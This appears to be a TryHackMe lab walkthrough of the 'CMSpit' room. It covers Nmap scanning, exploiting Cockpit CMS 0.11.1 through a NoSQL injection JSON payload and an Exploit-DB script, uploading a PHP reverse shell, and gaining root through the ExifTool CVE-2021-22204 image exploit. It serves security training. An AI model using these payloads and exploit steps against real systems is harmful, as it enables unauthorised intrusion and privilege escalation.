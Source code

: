 # CMSpit - TryHackMe Walkthrough


## 📋 Table of Contents
- [Initial Reconnaissance](#-initial-reconnaissance)
- [Web Enumeration](#-web-enumeration)
- [CMS Exploitation](#-cms-exploitation)
- [Privilege Escalation](#-privilege-escalation)
- [Flags](#-flags)

## 🔍 Initial Reconnaissance

### Port Scanning
Running an initial Nmap scan to identify open ports and services:

```bash
nmap -A 10.10.116.219
```

**Key Findings:**
- Port 22 (SSH): OpenSSH 7.2p2 Ubuntu
- Port 80 (HTTP): Apache httpd 2.4.18
  - Login page redirects to `/auth/login`
  - Server running Ubuntu Linux

<details>
<summary>View Full Nmap Output</summary>

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-15 11:10 +06
Nmap scan report for 10.10.116.219
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
```
</details>

## 🌐 Web Enumeration

### CMS Identification
- **Name**: Cockpit CMS
- **Version**: 0.11.1 (found in page source)
- **Vulnerable Endpoint**: `/auth/check` (NoSQL Injection - CVE-2020-35846)

### Key Paths & Endpoints
| Path | Purpose | Vulnerability |
|------|----------|--------------|
| `/auth/check` | User enumeration | NoSQL Injection |
| `/auth/requestreset` | Password reset | Unauthorized access |

## 💀 CMS Exploitation

### Method 1: Automated Exploit
1. Locate the exploit:
```bash
searchsploit cockpit 0.11.1
searchsploit -m 50185
```

2. Execute:
```bash
python3 50185.py -u http://TARGET_IP/
```

### Method 2: Manual Exploitation
Using Burp Suite, craft a NoSQL injection payload:
```json
{
  "auth": {
    "user": {
      "$func": "var_dump"
    },
    "password": "admin"
  },
  "csfr": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"
}
```

### Shell Access
1. Upload PHP reverse shell to Assets
2. Configure shell with attacker IP/port
3. Start netcat listener
4. Access shell via direct asset link

## 🚀 Privilege Escalation

### User → Root
The system is vulnerable to **CVE-2021-22204** - ExifTool arbitrary code execution.

#### Requirements
- Tool: `djvumake`
- Dependencies: `djvulibre-bin`, `exiftool`

#### Exploitation Steps
1. Install dependencies:
```bash
sudo apt install djvulibre-bin exiftool
```

2. Generate malicious image:
```bash
python3 exploit-CVE-2021-22204.py -c "/bin/bash"
```

3. Transfer and execute:
   - Host Python server with malicious image
   - Download on target using `wget`
   - Execute with ExifTool for root shell

## 🏁 Flags

<details>
<summary>🚩 Web Flag</summary>
Location: <code>/var/www/html/cockpit</code><br>
Flag: <code>thm{REDACTED}</code>
</details>

<details>
<summary>🚩 Database Flag</summary>
Location: <code>dbshell</code> file<br>
Flag: <code>thm{REDACTED}</code>
</details>

<details>
<summary>🚩 User Flag</summary>
Location: <code>stux</code> home directory<br>
Flag: <code>thm{REDACTED}</code>
</details>

<details>
<summary>🚩 Root Flag</summary>
Location: <code>/root/root.txt</code><br>
Flag: <code>thm{REDACTED}</code>
</details>

## 📚 Additional Information
- **CVE Details**: CVE-2021-22204 - ExifTool Arbitrary Code Execution
- **Compromised Email**: skidy@tryhackme.fakemail
- **Database**: NoSQL document database

## 🛠️ Tools Used
- Nmap
- Burp Suite
- ExifTool
- djvumake
- Python exploit scripts

---

